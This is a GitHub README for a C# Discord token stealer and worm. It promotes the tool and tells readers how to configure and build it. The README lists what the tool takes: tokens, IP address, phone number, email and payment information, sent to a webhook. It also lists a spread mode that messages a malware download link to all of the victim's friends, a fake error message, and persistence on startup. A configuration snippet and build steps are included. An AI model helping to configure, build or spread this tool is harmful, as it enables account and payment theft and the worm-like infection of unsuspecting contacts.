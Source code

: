 # TrickOrTreat
A new Discord token stealer/worm that can spread itself.

<p align="center">
<img src="https://img.shields.io/github/languages/top/extatent/TrickOrTreat?style=flat-square" </a>
<img src="https://img.shields.io/github/last-commit/extatent/TrickOrTreat?style=flat-square" </a>
<img src="https://img.shields.io/github/license/extatent/TrickOrTreat?style=flat-square" </a>
<img src="https://img.shields.io/github/stars/extatent/TrickOrTreat?color=%23daff00&label=Stars&style=flat-square" </a>
<img src="https://img.shields.io/github/forks/extatent/TrickOrTreat?color=%23daff00&label=Forks&style=flat-square" </a>

---

**NOTE:** ⭐ If you like the project, feel free to star it ⭐
  
### Most likely I won't add new features, if you want to do so, fork the project. This is just an example of how the new token encryption works and a way to spread.

#### Features:
- Classic Mode (Sends only the Discord token and IP address in an non-embedded format.)
- Spread Mode (Sends the file/message to all friends.)
- Fake Error (Throws a fake error after opening the program.)
- Run On Startup (Runs the program once the computer is started.)
- Sends Discord Embeds
- Getting the user's information (Discord Token, IP Address, Phone Number, Email, Payment Info and many more)

### Configurations
```csharp
static bool ClassicMode = false; // Sends only the Discord token and IP address in an non-embedded format. (true/false)
static bool SpreadMode = false; // Sends the file/message to all friends (true/false)
static string WormURL = "https://example.com/cool.exe"; // Enter the download link you want the user to download and spread
static string WormMessage = ""; // Enter the message (optional)
static bool FakeError = false; // Throws a fake error after opening the program (true/false)
static bool RunOnStartup = false; // Runs the program once the computer is started (true/false)
```
**NOTE:** These settings can be found in the program.cs file.
  
<details>
<summary>Preview</summary>
<img src="https://i.imgur.com/o50kz9w.png" alt="png">

<img src="https://i.imgur.com/KV9nmoE.png" alt="png">
</details>

## Installation
  
>Click the green "Code" button. 
  
>Click "Download ZIP".
  
>Extract the ZIP.

>Open the TrickOrTreat.sln, in Visual Studio go to Program.cs and edit your webhook with the settings then head to Build>Build Solution
  
>Go to bin>debug folder to get the executable.

>NOTE: Make sure you have [Visual Studio 2019 or Visual Studio 2022](https://visualstudio.microsoft.com/downloads/) and [.NET Framework 4.8](https://dotnet.microsoft.com/en-us/download/dotnet-framework) installed.

---
### TrickOrTreat is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/TrickOrTreat/blob/main/LICENSE) file for details.
